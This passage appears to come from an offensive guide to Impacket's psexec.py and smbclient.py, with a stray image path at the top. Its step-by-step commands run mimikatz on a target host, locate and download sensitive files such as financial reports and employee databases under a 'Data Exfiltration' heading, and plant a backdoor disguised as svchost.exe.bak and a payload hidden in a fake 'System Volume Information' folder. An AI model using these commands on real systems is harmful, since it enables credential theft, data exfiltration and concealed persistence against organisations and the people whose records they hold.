 ```bash
# Step 3: Use uploaded tools with other Impacket scripts
python3 psexec.py domain.com/user:password@target.domain.com "C:\\Windows\\Temp\\mimikatz.exe"
```

### Data Exfiltration
```bash
# Step 1: Identify valuable data
python3 smbclient.py domain.com/user:password@fileserver.domain.com
# shares
# use Documents$
# find . -name "*.xlsx"
# find . -name "*.docx"

# Step 2: Download sensitive files
# get "Financial Report 2024.xlsx"
# get "Employee Database.xlsx" 
# get "Network Diagram.docx"

# Step 3: Browse user profiles for additional data
# use C$
# cd Users
# ls
# cd john.doe
# cd Documents
# get *.pdf
```

## Advanced Usage

### Batch Operations
```bash
# Create command file for automated operations
cat > batch_commands.txt << EOF
shares
use C$
cd Windows
cd System32
ls
get notepad.exe
EOF

# Execute batch commands
python3 smbclient.py domain.com/user:password@target.domain.com -file batch_commands.txt
```

### Steganography and Hiding Files
```bash
# Hide files in legitimate locations
python3 smbclient.py domain.com/user:password@target.domain.com
# use C$
# cd Windows\System32
# put backdoor.exe svchost.exe.bak
# cd Windows\Temp
# mkdir "System Volume Information"
# cd "System Volume Information"
# put payload.exe
```
